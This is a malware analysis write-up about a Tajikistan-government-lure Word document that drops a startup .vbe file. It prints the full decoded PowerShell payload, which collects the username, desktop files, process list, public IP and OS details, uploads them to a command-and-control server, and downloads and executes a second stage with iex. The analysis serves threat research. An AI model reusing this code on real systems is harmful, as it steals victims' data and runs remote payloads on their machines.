

sha256 : **3deaa4072da43185d4213a38403383b7cefe92524b69ce4e7884a3ddc0903f6b**

ITW Filename : **Agency_Last_Section_Document.doc**

The document seems to be using **Government of Tajikistan** as lure.



It's dropping **C:\Users\<username>\AppData\Roaming\MicrOSOft\WinDOWs\StART Menu\ProGRAms\StaRTup\antibiotic.vbe** and executing the **.vbe file**

Once the **.vbe** file is decoded, you can see that it's a Powershell file.

The following is my decoded version of the Powershell file
```powershell
function decodeFunction{
    param($szInput);
    $iNum = [int]$szInput[0];
    $szDecoded = '';
    for($var_1 = ((1 + 0) + 0);$var_1 -lt $szInput.length;$var_1 += 2){
        $szDecoded += [char]((23 - 7) * ([int]$szInput[$var_1] - $iNum) + ([int]$szInput[$var_1 + ((5 - 2) - (5 - 3))] - $iNum));
    }
    return $szDecoded;
};
$szC2 = (decodeFunction('GMONKNKNGJQIVIVJHJOJLIUJIJKJKIUJHJKJPIUJIJHJOIV')); # http://185.244.149.218/
$szDir = (decodeFunction('?CIF?EDCFCCENFFEMEKENE@ECAN')); # JpeGDownload/
$CWY4YjWXY12b2e = [Convert]::ToUInt32(((104 * 886090) - (-1916690 + 14070049)), ([int](([int](576 / 9)) / ([int](16 / 4)))));

function qYlsfwUho(){
    try{
        $b6j9djVVZzo8 = $ENV:USERNAME;
    }catch{
        $B6j9dJVvZZo8 = (decodeFunction('59:<7<7;D<775::<8;:<7;C;6;B;:')); # Error Username
    }
    return $B6j9djVVZzO8;
}

function RPh5r1PhqIxA7SYc__{
    param($DL2rydqnHr);
    $aq1mVnZFv2UpcwrlZJ = (get-date).timeofday.TotalMilliseconds;
    $RnKdhzhsdT6hGCBc = $dl2RYdqnHr * (10 * 100) + $AQ1MvnZFv2UPcwrlzJ;
    while ((get-date).timeofday.TotalMilliseconds -lt $RnKDHZhSdT6HgCBC){
        $iNum = Get-Random(((12826494 - 2848425) + ([int](2785237 / 127))));
        for($UX61LBAd27AbGVor=(1 - (2 - 1));
            $UX61LBad27ABgvOr-lt$iNum;){
            $UX61lBaD27ABgVoR += Get-Random((5 * (250 - 50)));
        }
    }
}

function sjMdoP6bcx(){
    try{
        $oqCa0eGm1vaOAwxi = $eNv:SjmDOP6Bcx;
    }catch{
        $oQCa0egM1vaOawXi = (decodeFunction('EIJLGLGKTLGGEJJLHKJLGIIKTKRKFKNKS'));
    }
    return $OqcA0egM1VAOawXi;
}

function ZkQKn1T7PedAZ5(){
    try{
        $bVS8YjT8EU = ls $eNV:USERPROFILE\Desktop;
    }catch{
        $BVs8yJt8EU = (decodeFunction('EIJLGLGKTLGGEKQLH')); # Error ls
    }
    return $Bvs8yJT8eu;
}

function gk47DNY(){
    try{
        $k3D_SXUJtPGis = ps;
    }catch{
        $k3d_sXujtpgIs = (decodeFunction('@DEGBGBFOGBB@EDFAGCFKDLFIGCGD')); # Error TaskList
    }return $k3D_SxUJtpgiS;}


function l63f9hJkM_ezacXxRRovn(){
    try{
        $WSYXM9ENMSKW0BJM8FJ = New-Object System.Net.WebClient;
        $WSYxm9eNmskw0BJM8FJ.proxy = [Net.WebRequest]::GetSystemWebProxy();
        $wSYXM9enmsKw0Bjm8Fj.proxy.Credentials = [Net.CredentialCache]::DefaultCredentials;
        $m5CLhIEzw8lfSO82=$wsYxm9eNmSkW0bJm8FJ.DownloadString((decodeFunction('4:<;8;8;47>6C6C:=;46A:5;4:=6B:7:C:A6C:>;7:C:B'))); # http://ip-api.com/json
    }catch{
        $M5clHIeZw8LFSO82 = (decodeFunction('KOPRMRMQZRMMKPMQPQXQZROQPMKOTPK')); # Error Remote IP
    }
    return $M5cLhIEZw8LfSO82;
}

function RVDY0I7736rTQ5DEaFcbW(){
    try{
        $IkN3LWD = (Get-WMIObject win32_operatingsystem).name;
    }catch{
        $IKN3lWD = (decodeFunction('@FEGBGBFOGBB@FOGCB@DAGBFCFH')); # error os Arch
    }
    return $Ikn3lWd;
}

function kixIzU9Z(){
    qYlsFwUho;
    sJmDop6Bcx;
    gk47DnY;zkQKn1T7pEdAz5;
    l63F9hJkM_EZACxxRRovN;
    RVDy0I7736rTq5deafCbw;
}
KixIZU9Z | out-file $ENv:temp\log.txt;KIxIZU9z | out-file $ENV:temp\log.txt;
$wsYXm9enmSKW0BJm8Fj = New-Object System.Net.WebClient;
$WSyxm9eNMSKW0bjM8fJ.proxy = [Net.WebRequest]::GetSystemWebProxy();
$wSYXM9enmSkw0BJM8fJ.proxy.Credentials = [Net.CredentialCache]::DefaultCredentials;
$MgxLQZaBqB = $enV:temp +('{0}{1}'-f'\log','.txt');
$L2YBheupWkRAoxHDUvlU = $szC2 + $szDir;

function U7NggtxOTgUi_aDVHOB8(){
    while(1){
        rPh5r1PHQIxA7SYC__(((8 - 4) + (1 - 1)));
        start-sleep -s (2 * 3);
        try{
            $wSYXM9eNMSKW0bjM8Fj.DownloadFile( $szC2 + $szDir + $szGUID + ('{2}{3}{0}{1}'-f'n','g','.','p'),$Env:public +"\"+ "Dri" + ".dat");
            DFy5MNhF9SK4o8p631f;
            break;
        }catch{if ($_.Exception.Message){}}
    }
}

function TzhgfIGrI($EbeEcWEPaDg5oNW){
    try{
        $m5clhIeZw8LfSO82=$WsyXM9eNmskw0bJM8fJ.DownloadString($EBeECWePAdg5ONw);
    }catch{
        $Ls4hmnqs5a89HQvSL = $_.Exception.Message;
    }
    return $M5clhIeZw8LFsO82;
}

function uploadData(){
    while($TRUe){
        try{
            $EbeEcWePADg5oNw = $szC2 + ('{2}{0}{1}'-f'hp?New','sIID=','game.p') + $szGUID;
            $KxJgElpfpKqkLfBOB = gc $mGXLQZabQB;
            $KXJgElPfPkqKLfBOB = ($KXjGElpFpKQkLFbOb | out-string);
            $Duv6OpnZ = [System.Text.Encoding]::UTF8.GetBytes($kxJGElpfpkqklfBoB);
            $TAeRZGJn = [Convert]::ToBase64String($duv6opnz);
            $Ws6vEpluAp4Mu6FtEJ = [System.Text.Encoding]::UTF8.GetBytes($tAERZgjn);
            $c5xXNdjMdPq = $wSYXm9enmSKW0bjM8FJ.UploadData($EbeecwepAdg5ONW,('{1}{0}'-f'ST','PO'),$Ws6vEPluAp4Mu6FteJ);
            $KASlM202B2Srsce1N=[System.Text.Encoding]::ASCII.GetString($C5xXnDjMDpq);
            $kaSlm202B2SrSCe1N = $KAsLm202B2Srsce1n.trim();
            $KAsLm202B2SrScE1N.length;
            if($KAslm202B2SrSCe1n -eq (13 - 2)){
                break;
            }
        }catch{
            $iNum = $_.Exception;
        }
    }
}
if((Test-Path $env:public"\Retn.dat") -eq $truE){
    gc $EnV:public"\Retn.dat" | forEach-Object{if ($_ -ne ('{1}{0}{4}{2}{3}'-f'wn','do','ad','ed','lo')){$szGUID = $_;}}
}else{
    $szGUID = [guid]::newguid();
    new-Item $ENV:public"\Retn.dat" -type file;
    add-content -path $ENV:public"\Retn.dat" -value $szGUID;
}

function dfy5mNhF9SK4O8p631F(){
    start-process powershell -ArgumentList ('{1}{5}{7}{6}{3}{4}{0}{8}{2}'-f"'\Dr",' -w ',"t')",'v:pu','blic','1 ie',' $en','x(gc','i.da');
}
if((Test-Path $EnV:public"\ace.log") -eq $TRuE){
    dfY5mnHF9Sk4o8P631f;
}else{
    uploadData;
    u7NgGtXoTGUi_aDvhOB8;
}
```

We can see that it's sending back data to **hxxp://185[.]244[.]149[.]218/**
